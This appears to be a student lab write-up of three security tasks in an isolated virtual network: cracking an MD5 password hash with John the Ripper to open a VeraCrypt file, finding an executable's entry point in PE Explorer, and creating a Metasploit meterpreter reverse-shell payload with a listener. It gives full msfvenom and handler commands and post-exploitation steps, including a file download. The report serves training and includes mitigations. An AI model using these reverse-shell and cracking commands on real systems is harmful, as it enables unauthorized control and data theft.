

# Introduction

The intermediate level tasks focused on advanced cybersecurity
techniques, including cracking a hashed password to unlock a
VeraCrypt-encrypted file, analyzing an executable to find its entry
point, and creating a reverse shell payload using Metasploit. These
tasks were performed using a Kali Linux machine and Windows 10 on a
host-only network, with additional tools like John the Ripper, PE
Explorer, and Metasploit.

# Task Level: Intermediate

| **S.NO** | **TITLE**                                                                                                                                                                     |
|----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1        | A file is encrypted using VeraCrypt (a disk encryption tool). The password to access the file is encrypted in a hash format and provided to you in the drive with the name `encoded.txt`. Decode the password and enter it in VeraCrypt to unlock the file and find the secret code in it. The VeraCrypt setup file will be provided to you. |
| 2        | An executable file of VeraCrypt will be provided to you. Find the address of the entry point of the executable using the PE Explorer tool and provide the value as the answer in a screenshot. |
| 3        | Create a payload using Metasploit and make a reverse shell connection from a Windows 10 machine in your virtual machine setup.                                               |

# Information About The Report

-   **Password Hash Cracking**: This technique involves recovering
    plaintext passwords from hashed formats using brute force or
    wordlist attacks. In Task 1, I cracked a password hash to unlock a
    VeraCrypt file, revealing the secret code.

-   **Executable File Analysis**: This process uses reverse engineering
    tools to inspect executable files for key attributes like the entry
    point. In Task 2, I analyzed the VeraCrypt executable to find its
    entry point using PE Explorer.

-   **Reverse Shell Creation**: This method establishes a remote
    connection from a target to an attacker's machine, allowing command
    execution. In Task 3, I created a Metasploit payload to gain a
    reverse shell from my Windows host, enabling directory navigation
    and file transfer.

# Task 1: Decode the Password for the VeraCrypt-Encrypted File

**Attack Name**: Password Hash Cracking

**Severity**: High

**Reason**: Cracking a hashed password can grant unauthorized access to
encrypted files, potentially exposing sensitive data, making it a
critical security threat.

**Steps Taken**

1.  Located the file encoded.txt on the provided drive, containing the hash 482c811da5d5b4bc6d497ffa98491e38.

2.  Identified the hash type as MD5 using its 32-character hexadecimal format.

3.  Used John the Ripper to crack the hash with the command: john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt encoded.txt

5.  John returned the cracked password: **password123**.

6.  Opened VeraCrypt, mounted the encrypted file, and entered password123 to unlock it.

> 

> 

7.  Accessed the file's content and saw the secret code: **never giveup**.

> 

**Analysis**

-   The hash was successfully cracked. MD5 is a weak hashing algorithm vulnerable to wordlist attacks.

-   The password 'password123' was found in the rockyou.txt wordlist, indicating a weak password choice.

-   The secret code never giveup was retrieved, demonstrating the risk of weak passwords in encryption.

**Impact**

-   Unauthorized access to encrypted files can lead to data breaches,
    exposing sensitive information.

-   Weak passwords and outdated hash algorithms increase the risk of
    successful attacks.

**Mitigation**

-   Use strong, complex passphrases with mixed case, numbers, and
    symbols.

-   Employ stronger hash algorithms like bcrypt and Argon2 for password
    storage.

-   Regularly audit and update encryption tools and passwords.

**Tools Used**

-   John the Ripper

-   VeraCrypt

# Task 2: Find the Address of the Entry Point of the VeraCrypt Executable

**Attack Name**: Executable File Analysis

**Severity**: Medium

**Reason**: Identifying the entry point of an executable can aid in
reverse engineering or exploit development, posing a moderate risk if
used maliciously to analyze or modify software behavior.

**Steps Taken**

1.  Obtained the VeraCrypt executable file.

2.  Launched PE Explorer on my Windows 10 system.

> 

3.  Opened VeraCrypt.exe in PE Explorer via File \> Open.

> 

4.  Navigated to the Headers Info Viewer and located the Optional Header
    section.

5.  Identified the Address of Entry Point, recorded as 004237B0.

> 

**Analysis**

-   The Address of Entry Point (004237B0) is a Relative Virtual Address
    (RVA), indicating where the executable's code begins in memory.

-   This information could be used to analyze the program's behavior or
    develop exploits, though no malicious actions were performed here.

**Impact**

-   Knowledge of the entry point can facilitate reverse engineering,
    potentially leading to vulnerabilities if the executable has flaws.

-   Unauthorized modification of the executable could compromise system
    security.

**Mitigation**

-   Obfuscate executable code to hinder reverse engineering.

-   Use code signing to verify the integrity of executables.

-   Restrict access to sensitive executables and monitor for
    unauthorized analysis.

**Tools Used**

-   PE Explorer

---

# Task 3: Create a Metasploit Payload and Establish a Reverse Shell

**Attack Name**: Reverse Shell Exploitation

**Severity**: Critical

**Reason**: A reverse shell grants full control over a target system,
enabling file access, command execution, and potential privilege
escalation, posing a severe threat if exploited maliciously.

**Steps Taken**

1.  On my Kali Linux machine (IP: 192.168.56.109), I ran: `msfvenom -p
    windows/meterpreter/reverse_tcp LHOST=192.168.56.109 LPORT=4444 -f
    exe -o bad.exe` to create a reverse shell payload.

> 

2.  On my KALI vm, I dropped bad.exe to the E: drive (E:\\PAYLOAD) on the Windows 10 using a shared folder.

3.  In Kali, started Metasploit (msfconsole) and set up the listener:
- use exploit/multi/handler
- set PAYLOAD windows/meterpreter/reverse_tcp
- set LHOST 192.168.56.109
- set LPORT 4444
- exploit

> 

4.  On the Windows host, double-clicked bad.exe on the E: drive to
    execute it.

5.  Gained a Meterpreter session and ran commands:

-   `sysinfo` to confirm system details.

-   `getuid` to verify myself hahaha...

-   `ps` to list running processes on my Windows 10.

-   `cd C:\\` and `dir` to navigate and view directories like Users.

-   I downloaded a file from the windows machine unto the kali vm.

> 

> 

> 

> 

> 

> 

> 

> 

6.  Terminated the session by `kill` and with exit and deleted bad.exe
    from E:\\Downloads.

**Analysis**

-   The reverse shell successfully connected to the Kali listener,
    allowing full control over the Windows host.

-   Navigation to the C: drive revealed standard directories, and file
    download demonstrated the payload's capabilities.

**Impact**

-   A reverse shell can lead to complete system compromise, including
    data theft, malware deployment, or privilege escalation.

-   Unprotected systems are highly vulnerable to such attacks if
    payloads are executed.

**Mitigation**

-   Enable and configure Windows Defender and Firewall to block
    suspicious executables.

-   Restrict user permissions to prevent unauthorized execution.

-   Avoid running untrusted files and use sandbox environments for
    testing.

**Tools Used**

-   Metasploit Framework
